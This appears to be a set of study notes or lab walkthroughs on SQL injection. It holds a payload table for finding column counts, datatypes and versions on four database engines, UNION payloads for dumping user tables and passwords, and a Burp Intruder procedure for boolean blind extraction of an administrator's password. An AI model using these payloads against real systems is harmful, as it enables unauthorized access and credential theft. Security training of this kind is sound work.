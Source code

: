 <h2>SQL Injection(SQLi) ATTACK </h2>

<b>SQL Attack queries to determine the number of COLUMNS, DATATYPES of the columns and VERSION on Oracle, Microsoft, MySQL and PostgreSQL</b>

| Database | Columns Query | Datatypes | Version |
|----------|---------------|-----------|---------|
| Oracle |  ‘ ORDER BY 1-- </br> ‘ ORDER BY 3-- </br> In this example: 3 - 1 = 2(no. of columns) | ‘ UNION SELECT ‘a’ , ‘a’ FROM DUAL-- | ‘ UNION SELECT banner, NULL FROM v$version-- </br> SELECT banner FROM v$version |  
| Microsoft | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT @@version | 
| MySQL | ‘ ORDER BY 1# | ‘ UNION SELECT ‘a’ , ‘a’# | SELECT @@version </br> ‘ UNION SELECT @@version, ‘a’#|
| PostgreSQL | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT version() |

<b>SQLi Attack, listing the database contents on Oracle</b>
</br>
1. Use [Burp Suite](https://portswigger.net/burp/communitydownload) to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:  '+UNION+SELECT+'abc','def'+FROM+dual--
3. Use the following payload to retrieve the list of tables in the database:  '+UNION+SELECT+table_name,NULL+FROM+all_tables--
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:  '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:  '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
8. Find the password for the administrator user, and use it to log in.
</br>

<b>SQLi UNION attack, finding a column containing text</b>
</br>
1. Use Burp Suite to intercept and modify the request that sets the product category filter. </br>
2. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:  '+UNION+SELECT+NULL,NULL,NULL-- </br>
3. Try replacing each null with the random value, for example:  '+UNION+SELECT+'abcdef',NULL,NULL-- </br>
4. If an error occurs, move on to the next null and try that instead.
</br>

<b>Blind SQL injection with conditional responses</b>

Modify the TrackingId cookie, changing it to:</br>
TrackingId=xyz' AND '1'='1</br>
Verify that the "Welcome back" message appears in the response.</br>
Now change it to:</br>
TrackingId=xyz' AND '1'='2</br>
Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.
</br>
Now:</br>
Confirm that there is a table called users.</br>
‘ AND (SELECT ‘a’ FROM users LIMIT 1)=‘a</br>
Verify that the condition is true, confirming that there is a table called users.</br>

Confirm that there is a user called administrator.</br>
‘ AND (SELECT ‘a’ FROM users WHERE username=‘administrator’)=‘a</br>
Verify that the condition is true, confirming that there is a user called administrator.</br>

Determine the length of the password in the administrator user.</br>
To do that: ‘ AND (SELECT ’a’ FROM users WHERE username=‘administrator’ AND LENGTH(password)>1)=‘a</br>
This condition should be true, confirming that the password is greater than 1 character in length.</br>

Send a series of follow-up values to test different password lengths. Send</br>
‘ AND (SELECT ’a’ FROM users WHERE username=‘administrator’ AND LENGTH(password)>2)=‘a </br>
Then send:</br>
‘ AND (SELECT ’a’ FROM users WHERE username=‘administrator’ AND LENGTH(password)>3)=‘a </br>
We can so this by manually by using Burp Repeater.</br>
OR can do automatically by using Burp Intruder.</br>
In Burp Intruder:</br>
Choose Payload Type: Numbers</br>
Change payload settings with Number range </br>
From 1 to 25 and step 1</br>
Place payload position markers around the final a character in the cookie value. To do this, select just the 1, and click the "Add §" button. </br>
‘ AND (SELECT ’a’ FROM users WHERE username=‘administrator’ AND LENGTH(password)>§1§)=‘a</br>

Next:</br>
Change the value of cookie in the position tab of the Burp Intruder. </br>
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a </br>
This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
